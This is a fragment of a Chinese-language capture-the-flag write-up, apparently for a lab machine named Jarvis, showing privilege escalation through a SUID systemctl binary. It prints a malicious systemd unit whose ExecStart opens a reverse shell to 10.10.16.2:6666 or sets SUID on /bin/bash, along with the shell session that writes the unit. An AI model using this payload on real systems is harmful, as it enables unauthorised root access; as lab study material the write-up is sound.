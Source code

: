 ![image-20230613172334061](/images/18.png)

拿到user权限。

下一步提权拿root权限，本机开一个http服务，靶机从宿主机下载一个linpeas.sh

执行发现：systemctl被有suid权限。

自己写个服务提权(先按照前面的流程再升级一次shell)：

```ini
[Unit]
Description = some descriptions

[Service]
Type = simple
ExecStart = /bin/bash -c "/bin/bash -i >& /dev/tcp/10.10.16.2/6666 0>&1"
#or
ExecStart = chmod u+s /bin/bash
[Install]
WantedBy=multi-user.target
```

```shell
pepper@jarvis:/var/www/html$ echo "[Unit]
> Description = some descriptions
>
> [Service]
> Type = simple
> ExecStart = chmod u+s /bin/bash
> [Install]
> WantedBy=multi-user.target" > /dev/shm/root.service
pepper@jarvis:/var/www/html$ cat /dev/shm/root.service
[Unit]
Description = some descriptions

[Service]
Type = simple
ExecStart = chmod u+s /bin/bash
[Install]
WantedBy=multi-user.target
```